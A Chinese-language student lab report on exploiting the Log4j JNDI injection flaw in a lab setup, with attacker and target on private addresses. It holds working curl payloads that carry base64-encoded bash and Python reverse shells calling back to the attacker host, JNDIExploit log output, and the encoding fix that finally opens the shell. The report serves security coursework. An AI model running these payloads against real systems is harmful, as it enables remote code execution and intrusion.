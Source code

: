 # 实验准备

首先进行环境部署
![](./pic/部署完成.png)

验证能够成功打开网页
![](./pic/进入网页.png)

按照视频将docker中的demo.jar文件复制到本机上
![](./pic/demo.jar.png)

## 靶机ip

__192.168.8.129__

## 攻击者ip 

__192.168.8.132__

# 进行shell反弹测试

## 按照教程进行攻击者与靶机准备。

在进行shell反弹时遇到问题：网站并不接受POST请求；可以接受get请求，但是无法验证shell反弹内容
![](./pic/shell反弹失败.png)
课件中所给的命令使用-d强制指定POST请求，
```bash
curl http://192.168.8.129:33863/hello -d 'payload=${jndi:ldap://192.168.8.132:1389/TomcatBypass/Command/Base64/'$(echo -n 'bash -i >& /dev/tcp/192.168.8.132/7777 0>&1' | base64 -w 0 | sed 's/+/%252B/g' | sed 's/=/%253d/g')'}'
```
但是在本地的多次测试中，无法使用POST请求，在改用GET请求时，可以正常返回"ok"，但是没有反弹shell反应。
```bash
curl "http://192.168.8.129:33863/hello?payload=\${jndi:ldap://192.168.8.132:1389/TomcatBypass/Command/Base64/$(echo -n 'bash -i >& /dev/tcp/192.168.8.132/443 0>&1' | base64 -w 0 | sed 's/+/%252B/g' | sed 's/=/%253d/g')}"
```
__可能是网络问题，后续会再次进行测试。__

改用强制使用GET请求，能够监听到LDAP请求，说明漏洞触发成功，但是无法反弹shell
![](./pic/强制GET收获监听初步进展.png)

换为尝试python3的反弹shell
```bash
# 生成 Python3 反弹 Shell 的 Base64 编码
payload='python3 -c "import os,socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.8.132\",7777));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call([\"/bin/bash\",\"-i\"])"'

# 编码并构造 Payload
encoded_payload=$(echo -n "$payload" | base64 -w 0 | sed 's/+/%252B/g; s/=/%253D/g')

# 发送请求
curl -G "http://192.168.8.129:58468/hello" --data-urlencode "payload=\${jndi:ldap://192.168.8.132:1389/TomcatBypass/Command/Base64/${encoded_payload}}"
ok     
```

在JNDI中得到如下输出
```bash
[+] Received LDAP Query: TomcatBypass/Command/Base64/cHl0aG9uMyAtYyAiaW1wb3J0IG9zLHNvY2tldCxzdWJwcm9jZXNzO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoXCIxOTIuMTY4LjguMTMyXCIsNzc3NykpO29zLmR1cDIocy5maWxlbm8oKSwwKTtvcy5kdXAyKHMuZmlsZW5vKCksMSk7b3MuZHVwMihzLmZpbGVubygpLDIpO3N1YnByb2Nlc3MuY2FsbChbXCIvYmluL2Jhc2hcIixcIi1pXCJdKSI%3D
[+] Paylaod: command
[!] Exception: Incorrect params: TomcatBypass/Command/Base64/cHl0aG9uMyAtYyAiaW1wb3J0IG9zLHNvY2tldCxzdWJwcm9jZXNzO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoXCIxOTIuMTY4LjguMTMyXCIsNzc3NykpO29zLmR1cDIocy5maWxlbm8oKSwwKTtvcy5kdXAyKHMuZmlsZW5vKCksMSk7b3MuZHVwMihzLmZpbGVubygpLDIpO3N1YnByb2Nlc3MuY2FsbChbXCIvYmluL2Jhc2hcIixcIi1pXCJdKSI%3D
[+] Received LDAP Query: TomcatBypass/Command/Base64/cHl0aG9uMyAtYyAiaW1wb3J0IG9zLHNvY2tldCxzdWJwcm9jZXNzO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoXCIxOTIuMTY4LjguMTMyXCIsNzc3NykpO29zLmR1cDIocy5maWxlbm8oKSwwKTtvcy5kdXAyKHMuZmlsZW5vKCksMSk7b3MuZHVwMihzLmZpbGVubygpLDIpO3N1YnByb2Nlc3MuY2FsbChbXCIvYmluL2Jhc2hcIixcIi1pXCJdKSI%3D
[+] Paylaod: command
[!] Exception: Incorrect params: TomcatBypass/Command/Base64/cHl0aG9uMyAtYyAiaW1wb3J0IG9zLHNvY2tldCxzdWJwcm9jZXNzO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoXCIxOTIuMTY4LjguMTMyXCIsNzc3NykpO29zLmR1cDIocy5maWxlbm8oKSwwKTtvcy5kdXAyKHMuZmlsZW5vKCksMSk7b3MuZHVwMihzLmZpbGVubygpLDIpO3N1YnByb2Nlc3MuY2FsbChbXCIvYmluL2Jhc2hcIixcIi1pXCJdKSI%3D
[+] Received LDAP Query: TomcatBypass/Command/Base64/cHl0aG9uMyAtYyAiaW1wb3J0IG9zLHNvY2tldCxzdWJwcm9jZXNzO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoXCIxOTIuMTY4LjguMTMyXCIsNzc3NykpO29zLmR1cDIocy5maWxlbm8oKSwwKTtvcy5kdXAyKHMuZmlsZW5vKCksMSk7b3MuZHVwMihzLmZpbGVubygpLDIpO3N1YnByb2Nlc3MuY2FsbChbXCIvYmluL2Jhc2hcIixcIi1pXCJdKSI%3D
[+] Paylaod: command
[!] Exception: Incorrect params: TomcatBypass/Command/Base64/cHl0aG9uMyAtYyAiaW1wb3J0IG9zLHNvY2tldCxzdWJwcm9jZXNzO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoXCIxOTIuMTY4LjguMTMyXCIsNzc3NykpO29zLmR1cDIocy5maWxlbm8oKSwwKTtvcy5kdXAyKHMuZmlsZW5vKCksMSk7b3MuZHVwMihzLmZpbGVubygpLDIpO3N1YnByb2Nlc3MuY2FsbChbXCIvYmluL2Jhc2hcIixcIi1pXCJdKSI%3D
[+] Received LDAP Query: TomcatBypass/Command/Base64/cHl0aG9uMyAtYyAiaW1wb3J0IG9zLHNvY2tldCxzdWJwcm9jZXNzO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoXCIxOTIuMTY4LjguMTMyXCIsNzc3NykpO29zLmR1cDIocy5maWxlbm8oKSwwKTtvcy5kdXAyKHMuZmlsZW5vKCksMSk7b3MuZHVwMihzLmZpbGVubygpLDIpO3N1YnByb2Nlc3MuY2FsbChbXCIvYmluL2Jhc2hcIixcIi1pXCJdKSI%3D
[+] Paylaod: command
[!] Exception: Incorrect params: TomcatBypass/Command/Base64/cHl0aG9uMyAtYyAiaW1wb3J0IG9zLHNvY2tldCxzdWJwcm9jZXNzO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoXCIxOTIuMTY4LjguMTMyXCIsNzc3NykpO29zLmR1cDIocy5maWxlbm8oKSwwKTtvcy5kdXAyKHMuZmlsZW5vKCksMSk7b3MuZHVwMihzLmZpbGVubygpLDIpO3N1YnByb2Nlc3MuY2FsbChbXCIvYmluL2Jhc2hcIixcIi1pXCJdKSI%3D
```
同时仍然无法完成反弹shell。根据以上日志可知，问题出在参数解析错误（Incorrect params），这表明 JNDIExploit 无法正确处理发送的 Base64 编码后的 Python 反弹 Shell 命令。

在反复尝试多次之后，发现可能的原因是JNDIExploit 可能对 URL 编码后的 %2B（+）和 %3D（=）敏感，导致无法正确解析 Base64 编码后的命令。
尝试调整，移除填充符 = 并简化编码：
```bash
cmd='bash -i >& /dev/tcp/192.168.8.132/7777 0>&1'

# Base64 编码后移除填充符 `=`，并替换特殊符号
encoded_cmd=$(echo -n "$cmd" | base64 -w 0 | tr -d '=' | sed 's/+/%2B/g')

# 发送请求（注意不再手动编码 `=`）
curl -G "http://192.168.8.129:48217/hello" --data-urlencode "payload=\${jndi:ldap://192.168.8.132:1389/TomcatBypass/Command/Base64/${encoded_cmd}}"
```
![](./pic/修改curl请求成功反弹shell.png)

作业途中偶遇哈吉网站，拒绝POST请求疯狂哈气，拼尽全力，无法战胜